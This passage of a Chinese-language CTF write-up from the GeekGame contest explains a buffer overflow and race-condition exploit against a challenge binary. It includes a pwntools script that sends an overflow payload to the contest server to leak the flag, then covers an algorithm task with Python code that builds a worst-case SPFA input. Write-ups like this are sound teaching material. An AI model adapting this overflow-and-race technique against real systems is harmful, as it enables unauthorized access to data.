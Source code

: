 这多读的四个字节会造成什么样的问题呢？发现`p+0x100`的位置恰好是个四字节的变量`usleep_time`，而这个变量控制了`do_output()`函数等待的时间，从而使得另一个线程`get_thread2_input()`先执行成为可能。而`get_thread2_input()`会先重新更新一个`size`的大小，尽管`memcpy(buf,param_1,(long)size)`有限制`size < 0x32`，但是`buf`又只有`0x30`的大小，溢出的一个字节恰好是`buf+0x30`处四字节的`size`的最低字节，而`do_output()`中`memcpy(output_buf,flag_buf,(long)size)`恰好由`size`控制长度，由此得以绕过`usleep()`前对`size < 5`的限制，得以把`flag_buf`中全部内容都复制到`output_buf`中输出出来，就:

```Python
from pwn import *
r = remote('prob09.geekgame.pku.edu.cn', 10011)
r.recvuntil('token:')
r.sendline('(<token>))')
r.recvuntil('flag:')
r.sendline(b'4')
r.recvuntil('bytes):')
r.sendline(b'\x00'*0x30+b'\x30'+b'\x00'*0x6f+b'\x78\x78\x78\x78')
sleep(0.1) # important
r.sendline(b'\x34\x39')
while True:
	print(r.recvline())
```
> 笑点解析: 这是我第一次用`pwntools`，真不会用，虽然写了上面的代码，但是第一次拿到本题的flag还是在输入`"x"*30+"0"+"x"*111+"xxxx"`后拼手速手打的`"49"`，楽。

### 打破复杂度 #algo-complexity

卡SPFA这件事各有各的看法，我不是OIer我不好做太多评价，但是这场论争给完成本题带来了相当大的便利，稍稍搜索一下就能找到一种[最naïve的构造](https://wflight.github.io/2019/10/19/如何卡SPFA/)，根据其中给出的C代码手动翻译成Python即可:

```Python
MAXN = 2000
MAXM = 8000
MAXW = 1e9

SFPA_MAP = []
m = 0
sum_w = 0

for i in range(2,MAXN-1):
    w = (MAXN-i)*2+1
    sum_w += w+1
    SFPA_MAP.append(str(1)+" "+str(i+1)+" "+str(w)+"\n")
    SFPA_MAP.append(str(i+1)+" "+str(i)+" "+str(1)+"\n")
    m += 2

assert m <= MAXM
assert sum_w <= MAXW

OUTPUT = str(MAXN)+" "+str(m)+" "+str(1)+" "+str(MAXN)+"\n"

for i in SFPA_MAP:
    OUTPUT += i
```
